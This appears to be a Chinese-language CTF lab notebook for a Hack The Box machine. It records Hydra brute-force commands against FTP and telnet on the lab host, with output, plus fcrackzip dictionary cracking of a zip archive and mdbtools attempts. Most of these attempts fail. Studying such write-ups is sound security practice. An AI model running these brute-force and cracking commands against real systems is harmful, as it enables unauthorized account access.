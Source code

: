 好麻烦，干脆不用命令行传输了，下载一个ftp客户端。

[传输格式问题](http://www.coreftp.com/docs/web1/Ascii_vs_Binary_transfers.htm)
如果要将文件从Windows传输到基于Unix的服务器，Ascii模式将删除每行末尾的CR（回车）字符。  您可能会注意到您上传的文件小于本地文件

---

```
hydra -L /root/Desktop/86/user.txt -P /usr/share/wordlists/500-worst-passwords.txt 10.10.10.98 ftp
[21][ftp] host: 10.10.10.98   login: ftp   password: 123456
[21][ftp] host: 10.10.10.98   login: ftp   password: password
[21][ftp] host: 10.10.10.98   login: ftp   password: 12345678
[21][ftp] host: 10.10.10.98   login: ftp   password: 1234
[21][ftp] host: 10.10.10.98   login: ftp   password: pussy
[21][ftp] host: 10.10.10.98   login: ftp   password: 12345
[21][ftp] host: 10.10.10.98   login: ftp   password: qwerty
[21][ftp] host: 10.10.10.98   login: ftp   password: 696969
[21][ftp] host: 10.10.10.98   login: ftp   password: mustang
[21][ftp] host: 10.10.10.98   login: ftp   password: letmein
[21][ftp] host: 10.10.10.98   login: ftp   password: baseball
[21][ftp] host: 10.10.10.98   login: ftp   password: master
[21][ftp] host: 10.10.10.98   login: ftp   password: michael
[21][ftp] host: 10.10.10.98   login: ftp   password: dragon
[21][ftp] host: 10.10.10.98   login: ftp   password: football
[21][ftp] host: 10.10.10.98   login: ftp   password: shadow
```
apt install filezilla
图形界面ftp登陆失败。

#### mdb查看工具

```
下载查看mdb文件的工具
sudo apt-get install mdbtools mdbtools-gmdb mdbtools-dev

mdb-tables backup.mdb 查看该数据库的表
提示段错误
offset 7585302654976 is beyond EOF
Segmentation fault
```
#### 密码破解
`cd /usr/share/wordlists/ && fcrackzip -D -p long-pass-rockyou.txt -u /root/Desktop/98/a.zip`
破解失败

## 23
```
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.

Welcome to Microsoft Telnet Service 

```
`hydra -L /root/Desktop/86/user.txt -P /usr/share/wordlists/500-worst-passwords.txt 10.10.10.98 telnet`
